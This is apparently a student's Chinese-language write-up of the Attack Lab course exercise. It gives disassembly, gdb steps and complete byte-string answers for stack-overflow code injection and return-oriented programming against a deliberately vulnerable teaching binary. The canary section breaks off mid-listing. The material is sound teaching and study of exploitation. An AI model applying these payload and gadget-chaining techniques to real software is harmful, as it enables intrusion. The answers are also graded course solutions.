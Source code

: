 # Attacklab Writeup 

[`assemble`](./target35/assemble)中存储了各个可执行文件利用`objdump`反汇编的结果

[`answers`](./target35/answers)中以字节形式存储了各题目的答案，需使用[`hex2raw`](./target35/hex2raw)得到真正的输入，具体使用方式见[指导文档](./attacklab-readme.pdf)附录A

[`proc`](./target35/proc)中存储了解题时所用到的中间文件

## Part I: Code Injection Attacks

<details>

<summary>
    <code>test</code>和<code>getbuf</code>反汇编
</summary>

```
00000000004021b5 <test>:
  4021b5:	f3 0f 1e fa          	endbr64 
  4021b9:	48 83 ec 08          	sub    $0x8,%rsp
  4021bd:	b8 00 00 00 00       	mov    $0x0,%eax
  4021c2:	e8 55 fd ff ff       	call   401f1c <getbuf>
  4021c7:	89 c2                	mov    %eax,%edx
  4021c9:	48 89 e0             	mov    %rsp,%rax
  4021cc:	48 83 e0 0f          	and    $0xf,%rax
  4021d0:	74 07                	je     4021d9 <aligned4>
  4021d2:	b9 00 00 00 00       	mov    $0x0,%ecx
  4021d7:	eb 05                	jmp    4021de <done4>
```

```
0000000000401f1c <getbuf>:
  401f1c:	f3 0f 1e fa          	endbr64 
  401f20:	48 83 ec 38          	sub    $0x38,%rsp
  401f24:	48 89 e7             	mov    %rsp,%rdi
  401f27:	e8 cd 03 00 00       	call   4022f9 <Gets>
  401f2c:	b8 01 00 00 00       	mov    $0x1,%eax
  401f31:	48 83 c4 38          	add    $0x38,%rsp
  401f35:	c3                   	ret   
```
函数开辟了56个字节的栈空间，只要输入超过56字节，就可以修改调用者栈帧最下面的返回地址。

</details>

### Level 1

<details>

<summary>
    <code>touch1</code>反汇编
</summary>


```
0000000000401fe6 <touch1>:
  401fe6:	f3 0f 1e fa          	endbr64 
  401fea:	50                   	push   %rax
  401feb:	58                   	pop    %rax
  401fec:	48 83 ec 08          	sub    $0x8,%rsp
  401ff0:	c7 05 22 55 00 00 01 	movl   $0x1,0x5522(%rip)        # 40751c <vlevel>
  401ff7:	00 00 00 
  401ffa:	48 8d 3d 15 23 00 00 	lea    0x2315(%rip),%rdi        # 404316 <_IO_stdin_used+0x316>
  402001:	e8 aa f2 ff ff       	call   4012b0 <puts@plt>
  402006:	bf 01 00 00 00       	mov    $0x1,%edi
  40200b:	e8 5b 05 00 00       	call   40256b <validate>
  402010:	bf 00 00 00 00       	mov    $0x0,%edi
  402015:	e8 f6 f3 ff ff       	call   401410 <exit@plt>
```

</details>

<details>

<summary>
    Level 1解法
</summary>

只需让`getbuf`的返回地址为`401fe6`（`touch1`的地址）即可，注意机器使用小端法存储，故实际输入的字节顺序应为`e6 1f 40`，以后均同理。故答案为
```
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
e6 1f 40 00 00 00 00 00 
```

</details>

### Level 2

<details>
<summary>
    <code>touch2</code>反汇编
</summary>

```
000000000040201a <touch2>:
  40201a:	f3 0f 1e fa          	endbr64 
  40201e:	50                   	push   %rax
  40201f:	58                   	pop    %rax
  402020:	48 83 ec 08          	sub    $0x8,%rsp
  402024:	89 fa                	mov    %edi,%edx
  402026:	c7 05 ec 54 00 00 02 	movl   $0x2,0x54ec(%rip)        # 40751c <vlevel>
  40202d:	00 00 00 
  402030:	39 3d ee 54 00 00    	cmp    %edi,0x54ee(%rip)        # 407524 <cookie>
  402036:	74 2a                	je     402062 <touch2+0x48>
  402038:	48 8d 35 21 23 00 00 	lea    0x2321(%rip),%rsi        # 404360 <_IO_stdin_used+0x360>
  40203f:	bf 01 00 00 00       	mov    $0x1,%edi
  402044:	b8 00 00 00 00       	mov    $0x0,%eax
  402049:	e8 72 f3 ff ff       	call   4013c0 <__printf_chk@plt>
  40204e:	bf 02 00 00 00       	mov    $0x2,%edi
  402053:	e8 ee 05 00 00       	call   402646 <fail>
  402058:	bf 00 00 00 00       	mov    $0x0,%edi
  40205d:	e8 ae f3 ff ff       	call   401410 <exit@plt>
  402062:	48 8d 35 cf 22 00 00 	lea    0x22cf(%rip),%rsi        # 404338 <_IO_stdin_used+0x338>
  402069:	bf 01 00 00 00       	mov    $0x1,%edi
  40206e:	b8 00 00 00 00       	mov    $0x0,%eax
  402073:	e8 48 f3 ff ff       	call   4013c0 <__printf_chk@plt>
  402078:	bf 02 00 00 00       	mov    $0x2,%edi
  40207d:	e8 e9 04 00 00       	call   40256b <validate>
  402082:	eb d4                	jmp    402058 <touch2+0x3e>
```

</details>

<details>

<summary>
    Level 2解法
</summary>

在调用`touch2`之前，还需先将`cookie`（此处为`0x30cd1ee4`）的值置入`%rdi`中，先编写一段汇编代码[`cl2.s`](./target35/proc/ctarget_level2/cl2.s)
```
movq    $0x30cd1ee4, %rdi
pushq   $0x40201a
ret
```
其中`pushq $0x40201a`将`touch2`的首地址压入栈中，调用`ret`后即可运行`touch2`，另外，需要想办法让程序运行这一段汇编代码，为此，先将其转变为字节形式
```
gcc -c cl2.s
objdump -d cl2.o > cl2.txt
```
得到
```
0000000000000000 <.text>:
   0:	48 c7 c7 e4 1e cd 30 	mov    $0x30cd1ee4,%rdi
   7:	68 1a 20 40 00       	push   $0x40201a
   c:	c3                   	ret   
```
此外，还需要借助`gdb`查看调用`getbuf`时`%rsp`的值
```
gdb -q ctarget 
Reading symbols from ctarget...
(gdb) b *0x401f24
Breakpoint 1 at 0x401f24: file buf.c, line 14.
(gdb) run
Starting program: /target35/ctarget 
Cookie: 0x30cd1ee4
Type string:

Breakpoint 1, getbuf () at buf.c:14
14      buf.c: No such file or directory.
(gdb) i r
...
rsp            0x5563e908          0x5563e908
...
```
接下来利用以上信息进行攻击，由于`getbuf`的`ret`语句并不直接跳转到`touch2`，而是需要跳转到我们增加的代码处并运行，可以将我们增加的代码写在栈顶，并修改调用者栈帧的返回地址为栈顶地址，故答案如下
```
48 c7 c7 e4 1e cd 30 68 
1a 20 40 00 c3 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
08 e9 63 55 00 00 00 00 
```

</details>

### Level 3

<details>
<summary>
    <code>touch3</code>和<code>hexmatch</code>反汇编
</summary>

```
000000000040213f <touch3>:
  40213f:	f3 0f 1e fa          	endbr64 
  402143:	53                   	push   %rbx
  402144:	48 89 fb             	mov    %rdi,%rbx
  402147:	c7 05 cb 53 00 00 03 	movl   $0x3,0x53cb(%rip)        # 40751c <vlevel>
  40214e:	00 00 00 
  402151:	48 89 fe             	mov    %rdi,%rsi
  402154:	8b 3d ca 53 00 00    	mov    0x53ca(%rip),%edi        # 407524 <cookie>
  40215a:	e8 25 ff ff ff       	call   402084 <hexmatch>
  40215f:	85 c0                	test   %eax,%eax
  402161:	74 2d                	je     402190 <touch3+0x51>
  402163:	48 89 da             	mov    %rbx,%rdx
  402166:	48 8d 35 1b 22 00 00 	lea    0x221b(%rip),%rsi        # 404388 <_IO_stdin_used+0x388>
  40216d:	bf 01 00 00 00       	mov    $0x1,%edi
  402172:	b8 00 00 00 00       	mov    $0x0,%eax
  402177:	e8 44 f2 ff ff       	call   4013c0 <__printf_chk@plt>
  40217c:	bf 03 00 00 00       	mov    $0x3,%edi
  402181:	e8 e5 03 00 00       	call   40256b <validate>
  402186:	bf 00 00 00 00       	mov    $0x0,%edi
  40218b:	e8 80 f2 ff ff       	call   401410 <exit@plt>
  402190:	48 89 da             	mov    %rbx,%rdx
  402193:	48 8d 35 16 22 00 00 	lea    0x2216(%rip),%rsi        # 4043b0 <_IO_stdin_used+0x3b0>
  40219a:	bf 01 00 00 00       	mov    $0x1,%edi
  40219f:	b8 00 00 00 00       	mov    $0x0,%eax
  4021a4:	e8 17 f2 ff ff       	call   4013c0 <__printf_chk@plt>
  4021a9:	bf 03 00 00 00       	mov    $0x3,%edi
  4021ae:	e8 93 04 00 00       	call   402646 <fail>
  4021b3:	eb d1                	jmp    402186 <touch3+0x47>
```
```
0000000000402084 <hexmatch>:
  402084:	f3 0f 1e fa          	endbr64 
  402088:	41 55                	push   %r13
  40208a:	41 54                	push   %r12
  40208c:	55                   	push   %rbp
  40208d:	53                   	push   %rbx
  40208e:	48 81 ec 88 00 00 00 	sub    $0x88,%rsp
  402095:	89 fd                	mov    %edi,%ebp
  402097:	48 89 f3             	mov    %rsi,%rbx
  40209a:	41 bc 28 00 00 00    	mov    $0x28,%r12d
  4020a0:	64 49 8b 04 24       	mov    %fs:(%r12),%rax
  4020a5:	48 89 44 24 78       	mov    %rax,0x78(%rsp)
  4020aa:	31 c0                	xor    %eax,%eax
  4020ac:	e8 df f2 ff ff       	call   401390 <random@plt>
  4020b1:	48 89 c1             	mov    %rax,%rcx
  4020b4:	48 ba 0b d7 a3 70 3d 	movabs $0xa3d70a3d70a3d70b,%rdx
  4020bb:	0a d7 a3 
  4020be:	48 f7 ea             	imul   %rdx
  4020c1:	48 01 ca             	add    %rcx,%rdx
  4020c4:	48 c1 fa 06          	sar    $0x6,%rdx
  4020c8:	48 89 c8             	mov    %rcx,%rax
  4020cb:	48 c1 f8 3f          	sar    $0x3f,%rax
  4020cf:	48 29 c2             	sub    %rax,%rdx
  4020d2:	48 8d 04 92          	lea    (%rdx,%rdx,4),%rax
  4020d6:	48 8d 04 80          	lea    (%rax,%rax,4),%rax
  4020da:	48 c1 e0 02          	shl    $0x2,%rax
  4020de:	48 29 c1             	sub    %rax,%rcx
  4020e1:	4c 8d 2c 0c          	lea    (%rsp,%rcx,1),%r13
  4020e5:	41 89 e8             	mov    %ebp,%r8d
  4020e8:	48 8d 0d 44 22 00 00 	lea    0x2244(%rip),%rcx        # 404333 <_IO_stdin_used+0x333>
  4020ef:	48 c7 c2 ff ff ff ff 	mov    $0xffffffffffffffff,%rdx
  4020f6:	be 01 00 00 00       	mov    $0x1,%esi
  4020fb:	4c 89 ef             	mov    %r13,%rdi
  4020fe:	b8 00 00 00 00       	mov    $0x0,%eax
  402103:	e8 48 f3 ff ff       	call   401450 <__sprintf_chk@plt>
  402108:	ba 09 00 00 00       	mov    $0x9,%edx
  40210d:	4c 89 ee             	mov    %r13,%rsi
  402110:	48 89 df             	mov    %rbx,%rdi
  402113:	e8 78 f1 ff ff       	call   401290 <strncmp@plt>
  402118:	85 c0                	test   %eax,%eax
  40211a:	0f 94 c0             	sete   %al
  40211d:	48 8b 5c 24 78       	mov    0x78(%rsp),%rbx
  402122:	64 49 33 1c 24       	xor    %fs:(%r12),%rbx
  402127:	75 11                	jne    40213a <hexmatch+0xb6>
  402129:	0f b6 c0             	movzbl %al,%eax
  40212c:	48 81 c4 88 00 00 00 	add    $0x88,%rsp
  402133:	5b                   	pop    %rbx
  402134:	5d                   	pop    %rbp
  402135:	41 5c                	pop    %r12
  402137:	41 5d                	pop    %r13
  402139:	c3                   	ret    
  40213a:	e8 9e 06 00 00       	call   4027dd <__stack_chk_fail>
```

</details>

<details>

<summary>
    Level 3解法
</summary>

需要将`cookie`作为字符串传入并比较，即从`0x30cd1ee4`转为`"30cd1ee4"`，应该传入的字节则为（末尾应补零）
```
33 30 63 64 31 65 65 34 00
```
在`hexmatch`中，由于`*s`存放的地址是随机的，如果我们将数据放在`getbuf`的栈空间里面，有可能在调用这两个函数的过程中被覆盖，因此需要把数据放到一个相对安全的栈空间里，可以选择放在调用`getbuf`的函数`test`中。

下面的步骤与level2基本一致
- 查看`test`栈指针位置为`0x5563e948`，`getbuf`栈指针位置为`5563e908`
- 编写将`test`栈空间地址送到`%rdi`中，并将`touch3`首地址压栈再`ret`的汇编代码[`cl3.s`](./target35/proc/ctarget_level3/cl3.s)，转换为字节得到
    ```
    48 c7 c7 48 e9 63 55 68 
    3f 21 40 00 c3
    ```

最终答案为
```
48 c7 c7 48 e9 63 55 68 
3f 21 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
08 e9 63 55 00 00 00 00
33 30 63 64 31 65 65 34 
00
```

</details>

## Part II: Return-Oriented Programming

### Level 2

<details>

<summary>
    可用的gadget
</summary>

```
000000000040224c <start_farm>:
  40224c:	f3 0f 1e fa          	endbr64 
  402250:	b8 01 00 00 00       	mov    $0x1,%eax
  402255:	c3                   	ret    

0000000000402256 <addval_198>:
  402256:	f3 0f 1e fa          	endbr64 
  40225a:	8d 87 48 99 c7 90    	lea    -0x6f3866b8(%rdi),%eax
  402260:	c3                   	ret    

0000000000402261 <addval_121>:
  402261:	f3 0f 1e fa          	endbr64 
  402265:	8d 87 48 89 c7 c1    	lea    -0x3e3876b8(%rdi),%eax
  40226b:	c3                   	ret    

000000000040226c <setval_160>:
  40226c:	f3 0f 1e fa          	endbr64 
  402270:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
  402276:	c3                   	ret    

0000000000402277 <addval_326>:
  402277:	f3 0f 1e fa          	endbr64 
  40227b:	8d 87 13 d8 90 90    	lea    -0x6f6f27ed(%rdi),%eax
  402281:	c3                   	ret    

0000000000402282 <addval_102>:
  402282:	f3 0f 1e fa          	endbr64 
  402286:	8d 87 58 90 90 c3    	lea    -0x3c6f6fa8(%rdi),%eax
  40228c:	c3                   	ret    

000000000040228d <setval_277>:
  40228d:	f3 0f 1e fa          	endbr64 
  402291:	c7 07 77 cb 58 91    	movl   $0x9158cb77,(%rdi)
  402297:	c3                   	ret    

0000000000402298 <getval_471>:
  402298:	f3 0f 1e fa          	endbr64 
  40229c:	b8 58 90 c3 ae       	mov    $0xaec39058,%eax
  4022a1:	c3                   	ret    

00000000004022a2 <getval_125>:
  4022a2:	f3 0f 1e fa          	endbr64 
  4022a6:	b8 48 89 c7 90       	mov    $0x90c78948,%eax
  4022ab:	c3                   	ret    

00000000004022ac <mid_farm>:
  4022ac:	f3 0f 1e fa          	endbr64 
  4022b0:	b8 01 00 00 00       	mov    $0x1,%eax
  4022b5:	c3   
```

</details>

<details>

<summary>
    Level 2解法
</summary>

提示表明我们只用两个gadget即可完成，可以猜测需要一个`mov`来转移参数，另一个则为`pop`，通过比对可以找到`popq %rax`对应的`58`编码和`movq %rax, %rdi`对应的`48 89 c7`编码，分别位于以下的gadget中，起始位置分别为`0x40229d`和`0x4022a7`
```
0000000000402298 <getval_471>:
  402298:	f3 0f 1e fa          	endbr64 
  40229c:	b8 58 90 c3 ae       	mov    $0xaec39058,%eax
  4022a1:	c3                   	ret    

00000000004022a2 <getval_125>:
  4022a2:	f3 0f 1e fa          	endbr64 
  4022a6:	b8 48 89 c7 90       	mov    $0x90c78948,%eax
  4022ab:	c3                   	ret    
```

分析栈帧，设`%rsp`表示`getbuf`读取输入时的栈指针

<center>

|   地址    |   功能    |   应存储的值    |
|:-:|:-:|:-:|
|`56(%rsp)~63(%rsp)`|  `getbuf`返回位置  | `popq %rax`的地址 |
|`64(%rsp)~71(%rsp)`| 被`pop`的数        | `cookie`         |
|`72(%rsp)~79(%rsp)`| `popq %rax`之后`ret`的返回地址        | `movq %rax, %rdi`的地址         |
|`80(%rsp)~87(%rsp)`| `movq %rax, %rdi`之后`ret`的返回地址        | `touch2`的地址         |

</center>

故答案如下
```
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
9d 22 40 00 00 00 00 00 
e4 1e cd 30 00 00 00 00
a7 22 40 00 00 00 00 00 
6a 1f 40 00 00 00 00 00 
```

</details>

### Level 3

<details>

<summary>
    可用的gadget
</summary>

```
000000000040224c <start_farm>:
  40224c:	f3 0f 1e fa          	endbr64 
  402250:	b8 01 00 00 00       	mov    $0x1,%eax
  402255:	c3                   	ret    

0000000000402256 <addval_198>:
  402256:	f3 0f 1e fa          	endbr64 
  40225a:	8d 87 48 99 c7 90    	lea    -0x6f3866b8(%rdi),%eax
  402260:	c3                   	ret    

0000000000402261 <addval_121>:
  402261:	f3 0f 1e fa          	endbr64 
  402265:	8d 87 48 89 c7 c1    	lea    -0x3e3876b8(%rdi),%eax
  40226b:	c3                   	ret    

000000000040226c <setval_160>:
  40226c:	f3 0f 1e fa          	endbr64 
  402270:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
  402276:	c3                   	ret    

0000000000402277 <addval_326>:
  402277:	f3 0f 1e fa          	endbr64 
  40227b:	8d 87 13 d8 90 90    	lea    -0x6f6f27ed(%rdi),%eax
  402281:	c3                   	ret    

0000000000402282 <addval_102>:
  402282:	f3 0f 1e fa          	endbr64 
  402286:	8d 87 58 90 90 c3    	lea    -0x3c6f6fa8(%rdi),%eax
  40228c:	c3                   	ret    

000000000040228d <setval_277>:
  40228d:	f3 0f 1e fa          	endbr64 
  402291:	c7 07 77 cb 58 91    	movl   $0x9158cb77,(%rdi)
  402297:	c3                   	ret    

0000000000402298 <getval_471>:
  402298:	f3 0f 1e fa          	endbr64 
  40229c:	b8 58 90 c3 ae       	mov    $0xaec39058,%eax
  4022a1:	c3                   	ret    

00000000004022a2 <getval_125>:
  4022a2:	f3 0f 1e fa          	endbr64 
  4022a6:	b8 48 89 c7 90       	mov    $0x90c78948,%eax
  4022ab:	c3                   	ret    

00000000004022ac <mid_farm>:
  4022ac:	f3 0f 1e fa          	endbr64 
  4022b0:	b8 01 00 00 00       	mov    $0x1,%eax
  4022b5:	c3                   	ret    

00000000004022b6 <add_xy>:
  4022b6:	f3 0f 1e fa          	endbr64 
  4022ba:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
  4022be:	c3                   	ret    

00000000004022bf <getval_321>:
  4022bf:	f3 0f 1e fa          	endbr64 
  4022c3:	b8 48 89 e0 c2       	mov    $0xc2e08948,%eax
  4022c8:	c3                   	ret    

00000000004022c9 <addval_301>:
  4022c9:	f3 0f 1e fa          	endbr64 
  4022cd:	8d 87 89 c1 28 c0    	lea    -0x3fd73e77(%rdi),%eax
  4022d3:	c3                   	ret    

00000000004022d4 <getval_151>:
  4022d4:	f3 0f 1e fa          	endbr64 
  4022d8:	b8 48 89 e0 92       	mov    $0x92e08948,%eax
  4022dd:	c3                   	ret    

00000000004022de <getval_280>:
  4022de:	f3 0f 1e fa          	endbr64 
  4022e2:	b8 31 4a 89 e0       	mov    $0xe0894a31,%eax
  4022e7:	c3                   	ret    

00000000004022e8 <setval_305>:
  4022e8:	f3 0f 1e fa          	endbr64 
  4022ec:	c7 07 e0 9d 8d d6    	movl   $0xd68d9de0,(%rdi)
  4022f2:	c3                   	ret    

00000000004022f3 <setval_221>:
  4022f3:	f3 0f 1e fa          	endbr64 
  4022f7:	c7 07 89 ca 18 d2    	movl   $0xd218ca89,(%rdi)
  4022fd:	c3                   	ret    

00000000004022fe <setval_348>:
  4022fe:	f3 0f 1e fa          	endbr64 
  402302:	c7 07 89 d6 84 d2    	movl   $0xd284d689,(%rdi)
  402308:	c3                   	ret    

0000000000402309 <setval_426>:
  402309:	f3 0f 1e fa          	endbr64 
  40230d:	c7 07 89 c1 08 c9    	movl   $0xc908c189,(%rdi)
  402313:	c3                   	ret    

0000000000402314 <setval_489>:
  402314:	f3 0f 1e fa          	endbr64 
  402318:	c7 07 09 ca 90 c3    	movl   $0xc390ca09,(%rdi)
  40231e:	c3                   	ret    

000000000040231f <addval_196>:
  40231f:	f3 0f 1e fa          	endbr64 
  402323:	8d 87 88 c1 c3 5a    	lea    0x5ac3c188(%rdi),%eax
  402329:	c3                   	ret    

000000000040232a <addval_469>:
  40232a:	f3 0f 1e fa          	endbr64 
  40232e:	8d 87 99 c1 20 d2    	lea    -0x2ddf3e67(%rdi),%eax
  402334:	c3                   	ret    

0000000000402335 <getval_229>:
  402335:	f3 0f 1e fa          	endbr64 
  402339:	b8 99 ca 90 90       	mov    $0x9090ca99,%eax
  40233e:	c3                   	ret    

000000000040233f <setval_215>:
  40233f:	f3 0f 1e fa          	endbr64 
  402343:	c7 07 89 d6 90 c3    	movl   $0xc390d689,(%rdi)
  402349:	c3                   	ret    

000000000040234a <setval_287>:
  40234a:	f3 0f 1e fa          	endbr64 
  40234e:	c7 07 88 d6 90 c3    	movl   $0xc390d688,(%rdi)
  402354:	c3                   	ret    

0000000000402355 <getval_164>:
  402355:	f3 0f 1e fa          	endbr64 
  402359:	b8 89 ca 78 c9       	mov    $0xc978ca89,%eax
  40235e:	c3                   	ret    

000000000040235f <getval_110>:
  40235f:	f3 0f 1e fa          	endbr64 
  402363:	b8 89 c1 90 c3       	mov    $0xc390c189,%eax
  402368:	c3                   	ret    

0000000000402369 <getval_228>:
  402369:	f3 0f 1e fa          	endbr64 
  40236d:	b8 89 d6 60 db       	mov    $0xdb60d689,%eax
  402372:	c3                   	ret    

0000000000402373 <setval_255>:
  402373:	f3 0f 1e fa          	endbr64 
  402377:	c7 07 89 ca 20 c0    	movl   $0xc020ca89,(%rdi)
  40237d:	c3                   	ret    

000000000040237e <addval_220>:
  40237e:	f3 0f 1e fa          	endbr64 
  402382:	8d 87 89 c1 91 90    	lea    -0x6f6e3e77(%rdi),%eax
  402388:	c3                   	ret    

0000000000402389 <setval_199>:
  402389:	f3 0f 1e fa          	endbr64 
  40238d:	c7 07 48 89 e0 94    	movl   $0x94e08948,(%rdi)
  402393:	c3                   	ret    

0000000000402394 <getval_401>:
  402394:	f3 0f 1e fa          	endbr64 
  402398:	b8 09 d6 38 c0       	mov    $0xc038d609,%eax
  40239d:	c3                   	ret    

000000000040239e <getval_282>:
  40239e:	f3 0f 1e fa          	endbr64 
  4023a2:	b8 99 ca 84 c9       	mov    $0xc984ca99,%eax
  4023a7:	c3                   	ret    

00000000004023a8 <setval_432>:
  4023a8:	f3 0f 1e fa          	endbr64 
  4023ac:	c7 07 48 09 e0 90    	movl   $0x90e00948,(%rdi)
  4023b2:	c3                   	ret    

00000000004023b3 <getval_373>:
  4023b3:	f3 0f 1e fa          	endbr64 
  4023b7:	b8 ee 89 d6 c2       	mov    $0xc2d689ee,%eax
  4023bc:	c3                   	ret    

00000000004023bd <setval_335>:
  4023bd:	f3 0f 1e fa          	endbr64 
  4023c1:	c7 07 73 48 89 e0    	movl   $0xe0894873,(%rdi)
  4023c7:	c3                   	ret    

00000000004023c8 <setval_210>:
  4023c8:	f3 0f 1e fa          	endbr64 
  4023cc:	c7 07 89 ca 28 c0    	movl   $0xc028ca89,(%rdi)
  4023d2:	c3                   	ret    

00000000004023d3 <addval_461>:
  4023d3:	f3 0f 1e fa          	endbr64 
  4023d7:	8d 87 48 89 e0 90    	lea    -0x6f1f76b8(%rdi),%eax
  4023dd:	c3                   	ret    

00000000004023de <addval_127>:
  4023de:	f3 0f 1e fa          	endbr64 
  4023e2:	8d 87 76 89 c1 92    	lea    -0x6d3e768a(%rdi),%eax
  4023e8:	c3                   	ret    

00000000004023e9 <getval_317>:
  4023e9:	f3 0f 1e fa          	endbr64 
  4023ed:	b8 89 c1 a4 c0       	mov    $0xc0a4c189,%eax
  4023f2:	c3                   	ret    

00000000004023f3 <setval_437>:
  4023f3:	f3 0f 1e fa          	endbr64 
  4023f7:	c7 07 89 ca 84 c0    	movl   $0xc084ca89,(%rdi)
  4023fd:	c3                   	ret    

00000000004023fe <addval_411>:
  4023fe:	f3 0f 1e fa          	endbr64 
  402402:	8d 87 48 88 e0 c3    	lea    -0x3c1f77b8(%rdi),%eax
  402408:	c3                   	ret    

0000000000402409 <addval_219>:
  402409:	f3 0f 1e fa          	endbr64 
  40240d:	8d 87 89 d6 a4 d2    	lea    -0x2d5b2977(%rdi),%eax
  402413:	c3                   	ret    

0000000000402414 <end_farm>:
  402414:	f3 0f 1e fa          	endbr64 
  402418:	b8 01 00 00 00       	mov    $0x1,%eax
  40241d:	c3                   	ret    
```

</details>

<details>

<summary>
    Level 3解法
</summary>

`touch3`需要传`cookie`的字符串起点指针作为参数，但是由于栈随机化策略，存放字符串的绝对地址是未知的，只能根据运行时的`%rsp`进行计算，因此，解题步骤为
- 在某个位置储存字符串
- 得到某个时刻的`%rsp`
- 用`Imm(%rsp)`作为字符串地址，`Imm`是需要确定的常数

下面先寻找可用的操作

<center>

| 操作 | 字节 | 起始位置 |
|:-:|:-:|:-:|
|`movq %rax, %rdi`| `48 89 c7` | `0x402272`|
|`movq %rsp, %rax`| `48 89 e0` | `0x4023d9` |
|`popq %rax`| `58` | `0x40229d` |
|`popq %rdx`| `5a`|`0x402328`|
|`movl %eax, %ecx`|`89 c1`|`0x402364`|
|`movl %eax, %edi`|`89 c7`|`0x402273`|
|`movl %ecx, %edx`|`89 ca`|`0x402379`|
|`movl %edx, %esi`|`89 d6`|`0x402304`|
|`movl %esp, %eax`|`89 e0`|`0x4022e5`|

</center>

此外，还有一个有用的函数
```
00000000004022b6 <add_xy>:
  4022b6:	f3 0f 1e fa          	endbr64 
  4022ba:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
  4022be:	c3                   	ret    
```

分析`add_xy`所涉及的寄存器，可以明确我们的目标是将`%rsp`转移到`%rdi`（因为没有`movq %___, %rsi`的可行操作），将`Imm`转移到`%rsi`或`%esi`，可以发现以下的方式，设`%rsp`表示`getbuf`读取输入时的栈指针

<center>

|   地址    |   应存储的值    |
|:-:|:-:|
|`56(%rsp)~63(%rsp)`      | `*(movq %rsp, %rax)`  |
|`64(%rsp)~71(%rsp)`      | `*(movq %rax, %rdi)`  |
|`72(%rsp)~79(%rsp)`      | `*(popq %rax)`        |
|`80(%rsp)~87(%rsp)`      | `Imm`                 |
|`88(%rsp)~95(%rsp)`      | `*(movl %eax, %ecx)`  |
|`96(%rsp)~103(%rsp)`     | `*(movl %ecx, %edx)`  |
|`104(%rsp)~111(%rsp)`    | `*(movl %edx, %esi)`  |
|`112(%rsp)~119(%rsp)`    | `*add_xy`             |
|`120(%rsp)~127(%rsp)`    | `*(movq %rax, %rdi)`  |
|`128(%rsp)~135(%rsp)`    | `touch3`              |
|`136(%rsp)~143(%rsp)`    | `cookie`              |

</center>

容易计算出`Imm = 72 = 0x48`，故答案为
```
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
d9 23 40 00 00 00 00 00 
72 22 40 00 00 00 00 00 
9d 22 40 00 00 00 00 00 
48 00 00 00 00 00 00 00 
64 23 40 00 00 00 00 00 
79 23 40 00 00 00 00 00 
04 23 40 00 00 00 00 00 
b6 22 40 00 00 00 00 00 
72 22 40 00 00 00 00 00 
8f 20 40 00 00 00 00 00 
33 30 63 64 31 65 65 34 
00 
```

</details>

## Part III: Return-Oriented Programming with canary protection

### Level 3

<details>

<summary>
    Level 3解法
</summary>

```
000000000040219c <getbuf_withcanary>:
  40219c:	f3 0f 1e fa          	endbr64 
  4021a0:	55                   	push   %rbp
  4021a1:	48 89 e5             	mov    %rsp,%rbp
  4021a4:	48 81 ec 90 01 00 00 	sub    $0x190,%rsp
  4021ab:	64 48 8b 04 25 28 00 	mov    %fs:0x28,%rax
  4021b2:	00 00 
  4021b4:	48 89 45 f8          	mov    %rax,-0x8(%rbp)
  4021b8:	31 c0                	xor    %eax,%eax
  4021ba:	c7 85 74 ff ff ff 00 	movl   $0x0,-0x8c(%rbp)
  4021c1:	00 00 00 
  4021c4:	8b 85 74 ff ff ff    	mov    -0x8c(%rbp),%eax
  4021ca:	89 85 70 ff ff ff    	mov    %eax,-0x90(%rbp)
  4021d0:	48 8d 85 70 fe ff ff 	lea    -0x190(%rbp),%rax
  4021d7:	48 89 c7             	mov    %rax,%rdi
  4021da:	e8 ec 02 00 00       	call   4024cb <Gets>
  4021df:	8b 85 70 ff ff ff    	mov    -0x90(%rbp),%eax
  4021e5:	48 63 d0             	movslq %eax,%rdx
  4021e8:	48 8d 85 70 fe ff ff 	lea    -0x190(%rbp),%rax
  4021ef:	48 8d 88 08 01 00 00 	lea    0x108(%rax),%rcx
  4021f6:	48 8d 85 70 fe ff ff 	lea    -0x190(%rbp),%rax
  4021fd:	48 89 ce             	mov    %rcx,%rsi
  402200:	48 89 c7             	mov    %rax,%rdi
  402203:	e8 68 f1 ff ff       	call   401370 <memcpy@plt>
  402208:	8b 85 74 ff ff ff    	mov    -0x8c(%rbp),%eax
  40220e:	48 63 d0             	movslq %eax,%rdx
  402211:	48 8d 85 70 fe ff ff 	lea    -0x190(%rbp),%rax
  402218:	48 8d 8d 70 fe ff ff 	lea    -0x190(%rbp),%rcx
  40221f:	48 81 c1 08 01 00 00 	add    $0x108,%rcx
  402226:	48 89 c6             	mov    %rax,%rsi
  402229:	48 89 cf             	mov    %rcx,%rdi
  40222c:	e8 3f f1 ff ff       	call   401370 <memcpy@plt>
  402231:	b8 01 00 00 00       	mov    $0x1,%eax
  402236:	48 8b 55 f8          	mov    -0x8(%rbp),%rdx
  40223a:	64 48 2b 14 25 28 00 	sub    %fs:0x28,%rdx
  402241:	00 00 
  402243:	74 05                	je     40224a <getbuf_withcanary+0xae>
